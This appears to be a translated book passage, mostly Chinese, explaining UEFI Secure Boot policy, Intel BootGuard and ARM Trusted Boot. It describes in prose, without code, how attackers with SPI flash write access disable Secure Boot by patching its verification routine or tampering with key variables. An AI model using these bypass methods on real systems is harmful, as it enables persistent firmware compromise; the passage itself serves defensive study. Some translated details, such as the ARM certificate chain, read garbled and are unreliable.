- 因此，Secure Boot 的信任模型假设你已正确实现固件安全更新机制，该机制要求固件更新必须使用正确的签名键（该键必须不同于 PK）。这样，只有经过授权的 PI 固件更新才会发生，根本信任保持完整。

- 很明显，该信任模型不保护物理攻击者，他们可以直接对 SPI 闪存进行重写，植入恶意固件镜像并破坏 PI 固件。我们将在“Protecting Secure Boot with Verified and Measured Boot”章节的 page 338 上讨论如何防范固件的物理攻击。

- 在 Figure 17-8 的最上方，你可以看到平台制造商提供的平台密钥（platform key）具有与 PI 固件相同的固有信任级别。该密钥用于建立 PI 固件与平台制造商之间的信任。一旦平台密钥提供，平台固件允许制造商更新 KEKs，从而控制哪些镜像通过 Secure Boot 检查，哪些不通过。

- 在其下方，你可以看到 KEKs，它们负责建立 PI 固件与运行在平台上的操作系统之间的信任。当平台 KEK 在 UEFI 变量中被配置后，操作系统可以指定哪些镜像可以通过 Secure Boot 检查。例如，操作系统厂商可以使用 KEK 允许 UEFI 固件执行操作系统加载器。

- 在信任模型的最底部，你可以看到 `db` 和 `dbx` 数据库，它们由 KEKs 签名，包含用于 Secure Boot 直接完整性检查的镜像哈希和公钥证书。

### Secure Boot Policy

- 单独来看，Secure Boot 使用 `PK`、`KEK`、`db`、`dbx` 和 `dbt` 变量来指示平台是否信任可执行镜像，正如我们前面所见。然而，Secure Boot 验证结果的解释（即是否执行镜像）很大程度上取决于当前的策略。

- 本章节已经多次提到 Secure Boot 策略，但尚未深入说明其具体内容。下面我们来更详细地探讨这个概念。

- 简单来说，Secure Boot 策略决定平台固件在完成镜像验证后应采取哪些操作。固件可能执行镜像、禁止执行、延迟执行，或请求用户做出决定。

- Secure Boot 策略在 UEFI 规范中并未严格定义，因此是每个实现特有的，尤其是不同厂商的 UEFI 固件实现之间会有差异。本节将探讨我们在 Intel 的 EDK2 源码中实现的若干策略元素，该源码在 Chapter 15 中使用，你可以从 [`github.com/tianocore/edk2/`](https://github.com/tianocore/edk2/) 下载或克隆仓库。

- EDK2 中 Secure Boot 实现考虑的一个元素是可执行镜像的来源。镜像可能来自不同的存储设备，有些设备本身被视为受信任。例如，如果镜像从 SPI 闪存加载（即与 UEFI 固件位于同一存储设备上），平台可能会自动信任它。但如果攻击者能够篡改 SPI 闪存上的镜像，他们也可以篡改固件并完全禁用 Secure Boot。我们将在“Patching PI Firmware to Disable Secure Boot”章节的 page 335 上讨论此攻击。

- 相反，如果镜像从外部 PCI 设备加载（例如 Option ROM，预启动环境中从外部外设加载的特殊固件），则被视为不受信任，需要经过 Secure Boot 检查。

- 下面我们列出了一些决定镜像处理方式的策略定义。这些策略位于 EDK2 仓库的 `SecurityPkg\\SecurityPkg.dec` 文件中。每个策略为满足条件的镜像分配一个默认值。

  - `PcdOptionRomImageVerificationPolicy` 定义了加载为 Option ROM 的镜像（如 PCI 设备上的镜像）的验证策略，默认值为 `0x00000004`。

  - `PcdRemovableMediaImageVerificationPolicy` 定义了位于可移除介质（包括 CD‑ROM、USB、网络）上的镜像的验证策略，默认值为 `0x00000004`。

  - `PcdFixedMediaImageVerificationPolicy` 定义了位于固定介质设备（如硬盘）上的镜像的验证策略，默认值为 `0x00000004`。

- 除了上述策略，还有两条未在 `SecurityPkg\\SecurityPkg.dec` 文件中明确定义但被 EDK2 Secure Boot 实现使用的策略：

  - **SPI flash ROM policy** 定义了位于 SPI 闪存上的镜像的验证策略，默认值为 `0x00000000`。

  - **Other origin** 定义了除上述设备外的任何镜像的验证策略，默认值为 `0x00000004`。

> **NOTE**
>
> 请记住，这并不是 Secure Boot 用于镜像验证的完整策略列表。不同固件厂商可以根据需要修改或扩展此列表，加入自定义策略。

#### 默认策略值的描述

| 值 | 说明 |
| --- | --- |
| `0x00000000` | 始终信任镜像，无论是否签名，无论其哈希是否在 db 或 dbx 数据库中。 |
| `0x00000001` | 永不信任镜像。即使镜像拥有有效签名，也会被拒绝。 |
| `0x00000002` | 允许在出现安全漏洞时执行。即使镜像签名无法验证，或其哈希在 dbx 数据库中被列入黑名单，镜像仍会被执行。 |
| `0x00000003` | 在出现安全漏洞时延迟执行。镜像不会立即被拒绝，而是加载到内存中，执行会在重新评估其身份验证状态后才进行。 |
| `0x00000004` | 当 Secure Boot 未能使用 db 和 dbx 数据库验证镜像时，禁止执行。 |
| `0x00000005` | 在出现安全漏洞时询问用户。如果 Secure Boot 未能验证镜像，授权用户可决定是否信任该镜像。例如，启动时会显示用户消息提示。 |

从 Secure Boot 政策定义可以看出，所有从 SPI 闪存加载的镜像默认受信任，完全不进行数字签名验证。在其他情况下，默认值 `0x00000004` 强制要求签名验证，禁止执行任何未经认证的代码，包括作为 Option ROM 的镜像或位于可移除、固定或其他介质上的镜像。

### 防止使用 Secure Boot 的 Bootkits

在了解 Secure Boot 的工作原理后，我们来看一个具体的例子，说明它如何防止针对操作系统引导流的 Bootkits。我们不会讨论针对 MBR 和 VBR 的 Bootkits，因为正如 第 14 章 所述，UEFI 固件不再使用 MBR 和 VBR 这类对象（除非在 UEFI 兼容模式下），传统 Bootkits 无法破坏基于 UEFI 的系统。


如第15章所述，DreamBoot Bootkit是首个针对基于UEFI系统的公开概念验证Bootkit。在未启用Secure Boot的UEFI系统上，该Bootkit的工作方式如下：

1. Bootkit的作者将原始的UEFI Windows引导加载程序`bootmgfw.efi`替换为恶意引导加载程序`bootx64.efi`，并将其放置在引导分区上。
2. 恶意引导加载程序加载原始`bootmgfw.efi`，对其进行修补以获取对Windows加载程序`winload.efi`的控制权，并执行它，如图17-9所示。

   

   *图17-9：DreamBoot攻击操作系统引导加载程序的流程*

3. 恶意代码继续修补系统模块，直至到达操作系统内核，从而绕过诸如内核代码签名策略等保护机制，允许未经授权的内核模式代码执行。

之所以能实施此类攻击，是因为默认情况下操作系统引导加载程序在UEFI启动过程中不进行身份验证。UEFI固件从一个UEFI变量中获取操作系统引导加载程序的位置，在Microsoft Windows平台上该位置为引导分区上的`\\EFI\\Microsoft\\Boot\\bootmgfw.efi`。拥有系统权限的攻击者可以轻易替换或修改引导加载程序。

然而，一旦启用Secure Boot，此类攻击便不再可行。由于Secure Boot在启动时验证UEFI镜像的完整性，且操作系统引导加载程序是启动时被验证的可执行文件之一，Secure Boot会将引导加载程序的签名与db和dbx数据库中的签名进行比对。恶意引导加载程序未使用合法签名密钥进行签名，可能会在验证检查中失败，从而不被执行（具体取决于启动策略）。这正是Secure Boot防止Bootkits的一种方式。

## 攻击Secure Boot

现在我们来看一些能够成功针对UEFI Secure Boot的攻击。由于Secure Boot以PI固件和PK为根信任链，如果这两个组件中的任何一个被compromised，整个Secure Boot检查链条便失效。我们将讨论既能破坏Secure Boot的Bootkits也能破坏Secure Boot的Rootkits。

本节讨论的Bootkits类主要依赖于对SPI闪存内容的修改。在现代计算机系统中，SPI闪存常作为主要固件存储介质。几乎所有笔记本和台式机都将UEFI固件存储在通过SPI控制器访问的闪存中。

如第15章所述，我们之前展示了多种在闪存上安装持久化UEFI根kit的攻击方法，例如SMI处理程序问题、S3启动脚本、BIOS写保护等。本节的攻击假设攻击者已经能够修改包含UEFI固件的闪存内容，我们来看看他们接下来能做什么！

### 通过修补PI固件禁用Secure Boot

一旦攻击者能够修改SPI闪存的内容，他们就可以通过修补PI固件来轻易禁用Secure Boot。正如图17-8所示，UEFI Secure Boot根植于PI固件，因此如果我们篡改实现Secure Boot功能的PI固件模块，就能有效使其失效。

为了演示这一过程，我们使用Intel的EDK2源代码（`github.com/tianocore/edk2/`）作为UEFI实现的示例。你会在该仓库中找到Secure Boot验证功能的实现位置以及如何对其进行破坏的方法。

在仓库的`SecurityPkg/Library/DxeImageVerificationLib`文件夹中，你会找到`DxeImageVerificationLib.c`源代码文件，它实现了代码完整性验证功能。具体来说，该文件实现了`DxeImageVerificationHandler`例程，该例程决定UEFI可执行文件是否受信任并应被执行，或者验证失败。Listing 17-1展示了该例程的原型。

```
EFI_STATUS EFI_API DxeImageVerificationHandler (  
  IN  UINT32                       AuthenticationStatus, ➊  
  IN  CONST EFI_DEVICE_PATH_PROTOCOL *File, ➋  
  IN  VOID                         *FileBuffer, ➌  
  IN  UINTN                        FileSize, ➍  
  IN  BOOLEAN                      BootPolicy ➎  
);
```

*Listing 17-1: Definition of the DxeImageVerificationHandler routine*

作为第一个参数，例程接收`AuthenticationStatus`变量➊，该变量指示镜像是否已签名。`File`参数➋是指向被分发文件的设备路径指针。`FileBuffer`与`FileSize`提供了UEFI镜像及其大小的指针用于验证。

最后，`BootPolicy`参数表示请求加载被验证镜像的来源是否为UEFI启动管理器的启动选择（即该镜像是被选中作为操作系统引导加载程序的）。我们在第14章中详细讨论了UEFI启动管理器。

验证完成后，该例程返回以下值之一：

- `EFI_SUCCESS`：验证通过，镜像将被执行。
- `EFI_ACCESS_DENIED`：因平台策略禁止使用该镜像而未通过验证。例如，如果固件尝试从可移除介质加载镜像且平台策略禁止在启动时从可移除介质执行，即使镜像已签名，此例程也会立即返回`EFI_ACCESS_DENIED`而不进行任何签名验证。
- `EFI_SECURITY_VIOLATION`：因Secure Boot无法验证镜像的数字签名，或在禁止镜像数据库(dbx)中找到了可执行文件的哈希值，导致认证失败。此返回值表明该镜像不可信，平台应遵循Secure Boot策略以确定该镜像是否可执行。
- `EFI_OUT_RESOURCE`：因缺乏系统资源（通常是内存不足）而无法执行镜像认证，导致验证过程中发生错误。

为了绕过Secure Boot检查，拥有SPI闪存写入权限的攻击者可以修补此例程，使其无论接收何种可执行文件作为输入，均始终返回`EFI_SUCCESS`值。结果，所有UEFI镜像都将通过身份验证，无论它们是否经过签名。

## 修改UEFI变量以绕过安全检查

攻击Secure Boot实现的另一种方法是修改UEFI NVRAM变量。正如本章前面所讨论的，Secure Boot使用某些变量来存储其配置参数，详情如Secure Boot是否启用、PK和KEK、签名数据库以及平台策略。如果攻击者能够修改这些变量，他们就可以禁用或绕过Secure Boot验证检查。

确实，大多数Secure Boot实现会将UEFI NVRAM变量与系统固件一起存储在SPI闪存中。即使这些变量经过身份验证，且通过使用UEFI API从内核模式更改其值需要相应的私钥，但能够写入SPI闪存的攻击者仍可更改其内容。

一旦攻击者获得对UEFI NVRAM变量的访问权限，他们可以（例如）篡改PK、KEK、db和dbx以添加自定义恶意证书，这将允许恶意模块绕过安全检查。另一种选择是将恶意文件的哈希值添加到db数据库中，并从dbx数据库中将其移除（如果该哈希值最初在dbx数据库中）。如``所示，通过更改PK变量以包含攻击者的公钥证书，攻击者能够从KEK UEFI变量中添加和移除KEK，进而获得对db和dbx签名数据库的控制权，从而破坏Secure Boot保护。


*图17-10：针对UEFI Secure Boot信任链的攻击*

作为第三种选择，攻击者可以直接破坏UEFI变量中的PK，而不必更改PK并破坏底层PKI层级结构。Secure Boot要想工作，需要将有效的PK注册到平台固件中；否则，保护将被禁用。

如果您有兴趣进一步了解这些攻击，以下会议论文包含对UEFI Secure Boot技术的综合分析：

- Corey Kallenberg等，“Setup for Failure: Defeating Secure Boot”，LegbaCore，`papers.put.as/papers/firmware/2014/SetupForFailure-syscan-v4.pdf`。
- Yuriy Bulygin等，“Summary of Attacks Against BIOS and Secure Boot”，Intel Security，`www.c7zero.info/stuff/DEFCON22-BIOSAttacks.pdf`。

## 使用Verified Boot和Measured Boot保护Secure Boot

正如我们刚才讨论的，Secure Boot单独无法防范涉及平台固件更改的攻击。那么，是否有保护Secure Boot技术本身的措施呢？答案是肯定的。在本节中，我们将重点介绍旨在防止系统固件遭受未经授权修改的安全技术——即Verified Boot和Measured Boot。*Verified Boot*检查平台固件是否被篡改或修改，而*Measured Boot*计算启动过程中涉及的某些组件的加密哈希值，并将它们存储在可信平台模块平台配置寄存器（TPM PCR）中。

Verified Boot和Measured Boot独立运行，平台可能仅启用其中之一，也可能两者同时启用。然而，Verified Boot和Measured Boot都是同一信任链的一部分（如``所示）。


*图17-11：Verified Boot和Measured Boot流程*

正如您在``中所见，PI固件是CPU复位后执行的第一段代码。UEFI Secure Boot无条件信任PI固件，因此当前针对Secure Boot的攻击依赖于对其进行未经授权的修改也就不足为奇了。

为了防范此类攻击，系统需要一个位于PI固件*之外*的信任根。这就是Verified Boot和Measured Boot发挥作用的地方。这些过程执行的保护机制其信任根锚定在硬件中。此外，它们在系统固件之前执行，这意味着它们能够对系统固件进行身份验证*和*度量。我们稍后将讨论在此语境下“度量”的含义。

### Verified Boot


# Verified and Measured Boot

When a system with Verified Boot is powered on, the hardware logic launches the boot verification functionality that’s implemented in a boot ROM or microcode within the CPU. This logic is `immutable`, which means software can’t change it. Usually, Verified Boot executes a module to verify the integrity of the system, ensuring that the system will execute the authentic firmware without malicious modifications. To verify the firmware, Verified Boot relies on public key cryptography; like UEFI Secure Boot, it checks the digital signature of the platform firmware to ensure its authenticity. After it’s been successfully authenticated, the platform firmware is executed and proceeds to verify other firmware components (for example, the Option ROMs, DXE drivers, and OS bootloaders) to maintain the proper chain of trust. That’s the Verified portion of Verified and Measured Boot. Now for the Measured part.

## Measured Boot

Measured Boot works by measuring the platform firmware and OS bootloaders. This means it computes the cryptographic hashes of the components involved in the boot process. The hashes are stored in a set of TPM PCRs. The hash values themselves don’t tell you if the measured components are benign or malicious, but they do tell you whether the configuration and boot components have been changed at some point. If a boot component has been modified, its hash value will differ from the one computed over the original version of the boot component. Thus, Measured Boot will notice any modification of the boot component.

Later, the system software can use the hashes in these TPM PCRs to ensure the system is running in a known good state without any malicious modifications. The system might also use these hashes for `remote attestation`, which is when a system tries to prove to another system that it’s in a trusted state.

Now that you know how Verified and Measured Boot work in general, let’s take a look at a couple implementations of it, starting with Intel BootGuard.

## Intel BootGuard

Intel BootGuard is Intel’s Verified and Measured Boot technology. `` shows the boot flow on a platform with Intel BootGuard enabled.

``

*Figure 17-12: The Intel BootGuard flow*

During initialization, before the CPU starts executing the first code located at the reset vector, it executes code from the boot ROM. This code performs the necessary initialization of the CPU state, then loads and executes the BootGuard Authenticated Code Module (ACM).

- ACM 是一种用于执行安全敏感操作的特殊模块，必须由 Intel 签名。因此，加载 ACM 的引导 ROM 代码会进行强制性的签名验证，以确保模块在未由 Intel 签名的情况下不运行。签名验证通过后，ACM 会在隔离环境中执行，以防止恶意软件干扰其执行。
- BootGuard ACM 实现了验证和测量启动功能。该模块将第一阶固件加载器（初始引导块，IBB）加载到内存中，并根据当前的启动策略对其进行验证和/或测量。IBB 是固件的一部分，包含在重置向量处执行的代码。
- 严格来说，在此启动阶段没有 RAM。内存控制器尚未初始化，且 RAM 不可访问。然而，CPU 会将其最后级联缓存配置为 Cache-as-RAM 模式，以便在 BIOS 内存引用代码能够配置内存控制器并发现 RAM 之前，使用该缓存作为 RAM。
- ACM 在 IBB 成功验证和/或测量后将控制权转移给 IBB。如果 IBB 验证失败，ACM 会依据当前的启动策略处理：系统可能立即关机，或在特定超时后允许固件恢复。
- IBB 随后从 SPI 闪存中加载剩余的 UEFI 固件并对其进行验证和/或测量。IBB 收到控制权后，Intel BootGuard 不再负责维护信任链，因为其仅负责验证和测量 IBB。IBB 负责在 UEFI 安全启动接管固件镜像的验证和测量之前继续维护信任链。

### Locating the ACM

让我们来看 Intel BootGuard 技术在台式平台的实现细节，先从 ACM 开始。由于 ACM 是系统上电时最先执行的 Intel BootGuard 组件之一，第一个问题是：CPU 在通电时如何找到 ACM？

ACM 的准确位置在一种特殊的数据结构——固件接口表（FIT）中给出，FIT 存储在固件映像内。FIT 以数组形式组织，每个 FIT 条目描述固件中特定对象的位置，如 ACM 或微码更新文件。Figure 17-13 展示了 FIT 在系统内存中的布局。


*Figure 17-13: FIT 的内存位置*

CPU 上电后，从地址 `0xFFFFFFC0` ➊读取 FIT 的地址。由于此时没有 RAM，当 CPU 发起针对物理地址 `0xFFFFFFC0` 的读取事务时，芯片组逻辑识别该地址属于特殊范围，不会将事务发送到内存控制器，而是解码该地址。FIT 表的读取事务被转发给 SPI 闪存控制器，从而读取 FIT。

我们可以通过查看 EDK2 仓库来更深入地了解此过程。在 `IntelSiliconPkg/Include/IndustryStandard/` 目录下，找到 `FirmwareInterfaceTable.h` 头文件，其中包含与 FIT 结构相关的代码定义。Listing 17-2 展示了 FIT 条目的布局。

```c
typedef struct {  
  UINT64 Address; ➊  
  UINT8  Size[3]; ➋  
  UINT8  Reserved;  
  UINT16 Version; ➌  
  UINT8  Type : 7; ➍  
  UINT8  C_V : 1; ➎  
  UINT8  Chksum; ➏  
} FIRMWARE_INTERFACE_TABLE_ENTRY;
```

*Listing 17-2: FIT 条目布局*

每个 FIT 条目描述固件映像中的某个对象。对象的类型由 FIT 的 Type 字段编码。这些对象可能是微码更新文件、BootGuard 的 ACM 或 BootGuard 策略等。Address 字段 ➊和 Size 字段 ➋提供对象在内存中的位置：Address 为物理地址，Size 为以字（4 字节）为单位的大小。C_V 字段 ➎是检查和有效标志；若设为 1，则 Chksum 字段 ➏包含该对象的有效校验和。所有字节之和对 0xFF 取模后必须与 Chksum 的值相加为 0。Version 字段 ➌以二进制编码十进制格式表示组件的版本号。FIT 头条目中的该字段指示 FIT 数据结构的修订号。

`FirmwareInterfaceTable.h` 头文件中定义了 Type 字段 ➍的取值。这些取值大多未文档化，但 FIT 条目类型的定义很详细，可从上下文推断其含义。下面是与 BootGuard 相关的类型：

- `FIT_TYPE_00_HEADER` 条目通过其 Size 字段提供 FIT 表中的条目总数。其 Address 字段包含特殊的 8 字节签名‘_FIT_’（后跟三个空格）。
- `FIT_TYPE_02_STARTUP_ACM` 条目提供 BootGuard ACM 的位置，由启动 ROM 代码解析以定位 ACM 在系统内存中的地址。
- `FIT_TYPE_0C_BOOT_POLICY_MANIFEST`（BootGuard 启动策略声明）和 `FIT_TYPE_0B_KEY_MANIFEST`（BootGuard 密钥声明）条目为 BootGuard 提供当前的启动策略以及配置信息，详见“配置 Intel BootGuard”，第 343 页。

请注意，Intel BootGuard 启动策略与 UEFI 安全启动策略是两个不同的概念。前者由 ACM 和芯片组逻辑执行，用于验证和测量启动过程，包括是否执行验证和测量、以及在验证失败时的处理方式。后者是 UEFI 安全启动，前文已有所介绍，完全由 UEFI 固件实现。

### Exploring the FIT

可以使用 UEFITool（见第 15 章及稍后在第 19 章的讨论）来探索固件映像中的 FIT 条目，提取 ACM、启动策略和密钥声明等，以便进一步分析。这对于 ACM 可能被用来隐藏恶意代码的情况很有帮助。下面的例子使用了一张开启 Intel BootGuard 技术的系统获取的固件映像。（第 19 章提供了获取系统固件的方法。）

首先，在 UEFITool 中通过 **File** ▸ **Open Image File** 加载固件映像。加载后，会出现如 Figure 17-14 所示的窗口。


*Figure 17-14: 在 UEFITool 中浏览 FIT*

窗口下半部分的 FIT 选项卡列出了 FIT 条目。Type 列显示条目类型。我们需要查找类型为 BIOS ACM、BootGuard 密钥声明和 BootGuard 启动策略的 FIT 条目，从而定位 Intel BootGuard 组件并将其提取用于后续分析。此例中，FIT 条目#6 指示 BIOS ACM 的位置，起始地址为 `0xfffc0000`；FIT 条目#7 和#8 分别指示密钥和启动策略声明的位置，起始地址为 `0xfffc9180` 和 `0xfffc8100`。

执行时，BootGuard BIOS ACM 会消耗 BootGuard 密钥，而启动策略会在系统内存中定位 IBB 以获取正确的公钥，用于验证 IBB 的签名。

BootGuard 密钥清单包含启动策略清单（BPM）的哈希值、OEM 根公钥、前序字段的数字签名（根公钥除外，因为它不在签名数据中），以及安全版本号（每次安全更新都会递增的计数器，用于防止回滚攻击）。

BPM 本身包含安全版本号、位置和 IBB 的哈希值；BPM 公钥；以及对前序字段的数字签名（根公钥除外，可使用 BPM 公钥进行验证）。IBB 的位置提供了 IBB 在内存中的布局，这可能不是连续的内存块，而是由几个非相邻的内存区域组成。IBB 哈希包含 IBB 占用的所有内存区域的累计哈希值。因此，验证 IBB 签名的整个过程如下：

1. BootGuard 通过 FIT 定位密钥清单（KM），获取启动策略清单的哈希值和 OEM 根密钥（记为 key 1），并使用 key 1 验证 KM 中的数字签名，以确保 BPM 哈希值的完整性。若验证失败，BootGuard 报错并触发补救措施。
2. 若验证成功，BootGuard 通过 FIT 定位 BPM，计算 BPM 的哈希值并与 KM 中的 BPM 哈希值比较。若不相等，BootGuard 报错并触发补救措施；否则，从 BPM 获取 IBB 的哈希值和位置。
3. BootGuard 在内存中定位 IBB，计算其累计哈希值并与 BPM 中的 IBB 哈希值比较。若不相等，BootGuard 报错并触发补救措施。
4. 否则，BootGuard 报告验证成功。若启用了 Measured Boot，BootGuard 还会计算 IBB 的哈希值并将其测量写入 TPM，随后将控制权转移给 IBB。

KM 是关键结构，因为它包含用于验证 IBB 完整性的 OEM 根公钥。你可能会问：“如果 BootGuard 的 KM 存储在未受保护的 SPI 闪存中与固件镜像一起，那么攻击者能否修改它以提供给 BootGuard 一个假的验证密钥？”为防止此类攻击，OEM 根公钥的哈希值被存储在芯片组的 `field-programmable fuses` 中。这些 fuses 只能在 BootGuard 启动策略被预配置时一次编程，一旦写入就无法覆盖。这正是 BootGuard 验证密钥在硬件中锚定的方式，使硬件成为不可更改的根信任根（启动策略也以芯片组 fuses 的形式存储，使得事后无法修改策略）。

如果攻击者修改了 BootGuard 密钥清单，ACM 会通过计算其哈希值并与芯片组内部烧录的“金色”值进行比较来发现被篡改的情况。哈希值不匹配会触发错误报告和补救行为。Figure 17-15 示意了 BootGuard 强制执行的信任链。


*Figure 17-15: The Intel BootGuard chain of trust*

在 IBB 成功验证（必要时已测量）后，它会执行并完成一些基本芯片组初始化，随后加载 UEFI 固件。此时，由 IBB 负责验证并加载并执行 UEFI 固件。否则，信任链将被破坏。

Figure 17-16 结束本节，表示安全启动实现的责任边界。


*Figure 17-16: The boundaries of responsibility for Secure Boot implementation*

## ARM Trusted Boot Board

ARM 拥有自己的验证和测量启动技术实现，称为 *Trusted Boot Board (TBB)*，简称 *Trusted Boot*。本节将介绍 Trusted Boot 的设计。ARM 采用了非常特殊的 *Trust Zone* 安全技术，将执行环境划分为两部分。在深入探讨 ARM 的验证和测量启动过程之前，需要先说明 Trust Zone 的工作原理。

### ARM Trust Zone

Trust Zone 安全技术是一种硬件实现的安全特性，它将 ARM 执行环境划分为两个 `worlds`：安全世界和正常（或非安全）世界，二者在同一物理核心上共存，如 Figure 17-17 所示。处理器的硬件和固件实现的逻辑确保安全世界的资源得到适当隔离，免受非安全世界软件的干扰。


*Figure 17-17: The ARM Trust Zone*

安全世界和正常世界各自拥有独立的固件和软件栈：正常世界执行用户应用和操作系统，而安全世界执行安全操作系统和受信任服务。这些世界的固件由不同的引导程序负责初始化世界并加载操作系统，我们稍后会讨论。因此，安全世界和正常世界拥有不同的固件镜像。

在处理器内部，正常世界的软件无法直接访问安全世界的代码和数据。阻止这种访问的控制逻辑通常由 SoC 硬件实现。但正常世界的软件可以通过特定的软件（如 ARM Cortex‑A 的 Secure Monitor）或核心逻辑（如 ARM Cortex‑M）将控制权转移到安全世界的软件（例如执行安全世界的受信任服务），从而确保跨世界切换不违背系统安全。

安全世界和正常世界一起，使 Trusted Boot 技术与 Trust Zone 形成 Trusted Execution Environment，用于运行高特权软件并为数字版权管理、加密与身份验证原语以及其他安全敏感应用提供环境。通过这种方式，最敏感的软件可以在一个隔离、受保护的环境中驻留。


#### ARM Boot Loaders

由于安全世界和正常世界保持分离，每个世界都需要自己的引导程序集合。启动过程也分为多个阶段，意味着需要在启动过程的不同点执行多个引导程序。下面列出 Trusted Boot 为 ARM 应用处理器一般描述的引导程序清单（如图 17-17 所示）：

- **BL1**：第一阶段引导程序，位于 ROM 并运行在安全世界。
- **BL2**：第二阶段引导程序，位于闪存中，由 `BL1` 在安全世界加载并执行。
- **BL31**：安全世界运行时固件，由 `BL2` 加载并执行。
- **BL32**：可选的安全世界第三阶段引导程序，由 `BL2` 加载。
- **BL33**：正常世界运行时固件，由 `BL2` 加载并执行。

此列表并非对所有 ARM 实现的完整且准确的描述，因为某些厂商会引入额外的引导程序或移除已有的引导程序。在某些情况下，`BL1` 可能不是系统复位后最先执行的代码。

为了验证这些引导组件的完整性，受信任启动（Trusted Boot）依赖于 X.509 公钥证书（请记住，UEFI 安全启动的 db 数据库中的文件是以 X.509 编码的）。值得注意的是，所有证书均为自签名。无需证书颁发机构，因为信任链不是通过证书颁发机构的有效性建立的，而是通过证书扩展的内容来建立。

受信任启动使用两种证书：`key` 和 `content` 证书。它首先使用 `key` 证书来验证用于签名 `content` 证书的公钥。然后，它使用 `content` 证书来存储引导加载程序镜像的哈希值。这一关系在 Figure 17-18 中得到说明。


*Figure 17-18: Trusted Boot key and content certificates*

受信任启动通过计算镜像的哈希值，并将结果与从内容证书中提取的哈希值进行比对，来验证镜像。

#### Trusted Boot Flow

现在，您已经熟悉了受信任启动的基础概念，让我们来看看用于应用处理器的受信任启动流程，如 Figure 17-19 所示。这将为您提供 ARM 处理器中如何实现已验证启动的完整图景，以及它如何保护平台免受包括固件根套件在内的不可信代码的执行。

在 Figure 17-19 中，实线表示执行流的传递，虚线表示信任关系；换句话说，每个元素信任其虚线箭头所指向的元素。

CPU 从复位后释放后，首先执行的代码是引导加载程序 1（`BL1`）➊。`BL1` 从只读引导 ROM 中加载，这意味着在存储期间它无法被篡改。`BL1` 从闪存中读取引导加载程序 2（`BL2`）的内容证书➒，并检查其颁发者密钥。随后，`BL1` 计算 `BL2` 内容证书颁发者的哈希值，并将其与硬件安全根信任公钥注册表（`ROTPK`）寄存器➓ 中的“金色”值进行比较。`ROTPK` 寄存器和引导 ROM 是受信任启动的根信任，它们以硬件为基础。如果哈希值不相等，或 `BL2` 内容证书签名验证失败，系统会发生 panic。

在 `BL2` 内容证书经过 `ROTPK` 验证后，`BL1` 从闪存中加载 `BL2` 镜像➋，计算其加密哈希值，并将该哈希值与从 `BL2` 内容证书➎ 中获取的哈希值进行比较。

在完成验证后，`BL1` 将控制权转移到 `BL2`，`BL2` 从闪存中读取其受信任密钥证书➏。该受信任密钥证书包含用于验证安全世界➐ 和正常世界➑ 固件的公钥。发出受信任密钥证书的密钥会被与 `ROTPK` 寄存器➓ 进行比对。

接下来，`BL2` 验证 `BL31`（安全世界的运行固件）➌，以确保其完整性。为了验证 `BL31` 镜像，`BL2` 使用 `BL31` 的密钥证书和内容证书➍。`BL2` 通过使用安全世界公钥（从受信任密钥证书中获取）来验证这些密钥证书。`BL31` 密钥证书包含用于验证 `BL32` 内容证书签名的 `BL31` 内容证书公钥。


*Figure 17-19: Trusted Boot flow*

在 `BL31` 内容证书经过验证后，证书中存储的 `BL31` 镜像哈希值用于检查 `BL3` 镜像的完整性。任何失败都会导致系统 panic。

同样，`BL2` 使用 `BL32` 密钥和内容证书检查可选的安全世界 `BL32` 镜像的完整性。

正常世界执行的 `BL33` 固件镜像的完整性通过 `BL33` 密钥和 `BL33` 内容证书进行检查。`BL33` 密钥证书通过从受信任密钥证书中获取的正常世界公钥进行验证。

如果所有检查均通过，系统将执行已验证的安全世界和正常世界固件。

### AMD 硬件验证启动

虽然本章未讨论，但 AMD 具有自己的已验证和测量启动实现，称为硬件验证启动（Hardware Validated Boot，HVB）。该技术的功能类似于 Intel BootGuard。基于 AMD 平台安全处理器技术，它有一个专用于安全相关计算的微控制器，该微控制器独立于系统主核心运行。

### 已验证启动 vs. 固件根套件

在掌握这些知识后，让我们看看已验证启动是否能防范固件根套件。

我们知道，已验证启动在任何固件执行之前进行。这意味着当已验证启动开始验证固件时，任何正在感染的固件根套件都尚未激活，因此恶意软件无法干扰验证过程。已验证启动会检测固件的任何恶意修改，并阻止其执行。

此外，已验证启动的根信任锚定在硬件中，攻击者无法对其进行篡改。Intel BootGuard 的 OEM 根公钥已融入芯片组，而 ARM 的根信任密钥存储在安全寄存器中。在这两种情况下，触发已验证启动的启动代码均来自只读存储，因此恶意软件无法对其进行补丁或修改。

因此，我们可以得出结论：已验证启动能够抵御固件根套件的攻击。然而，正如您可能所观察的，该技术相当复杂，存在许多依赖，容易在实现时出现错误。该技术的安全性取决于其最弱的环节；链条中的任何单一缺陷都可能导致其被绕过。这意味着攻击者很有可能在已验证启动的实现中发现漏洞进行利用，从而安装固件根套件。

### 结论

在本章中，我们探讨了三种安全启动技术：UEFI 安全启动、Intel BootGuard 和 ARM 受信任启动。这些技术依赖于从启动过程的最初阶段到用户应用程序执行的信任链，并涉及大量的启动模块。当正确配置和实现时，它们能够防范日益猖獗的 UEFI 固件根套件。这就是为什么高可信度系统必须使用安全启动，而如今许多消费级系统默认启用安全启动。下一章将重点讨论固件根套件的取证分析方法。

## 18 APPROACHES TO ANALYZING HIDDEN FILESYSTEMS


到目前为止，您已了解启动套件如何通过高级技术在受害计算机上渗透并持久化。这些高级威胁的一个共同特征是使用自定义隐藏存储系统来存储模块和配置信息。

许多隐藏文件系统是自定义的或是标准文件系统的变体，这意味着在对被根套件或引导套件 compromise 的计算机进行取证分析时，通常需要定制的工具集。为了开发这些工具，研究人员必须深入分析隐藏文件系统的布局以及用于加密数据的算法，进行详尽的分析和反向工程。

在本章中，我们将更 closely 关注隐藏文件系统及其分析方法。我们将分享本书所述根套件和引导套件的长期取证分析经验。我们还将讨论从隐藏存储中检索数据的方法，并分享在此类分析中常见的问题及其解决方案。最后，我们将介绍我们自行开发的自定义 `HiddenFsReader` 工具，其用途是针对特定恶意软件卸载隐藏文件系统的内容。

### 隐藏文件系统概览

Figure 18-1 显示了典型的隐藏文件系统概览。我们可以看到，恶意载荷被注入到受害进程的用户模式地址空间中，该载荷经常使用隐藏存储空间来读取和更新其配置信息或存储如窃取的凭据等数据。


*Figure 18-1: 典型的恶意隐藏文件系统实现*

隐藏存储服务是通过内核模式模块提供的，恶意软件暴露的接口仅对载荷模块可见。该接口通常不向系统上的其他软件提供，也无法通过标准方法（如 Windows 资源管理器）访问。

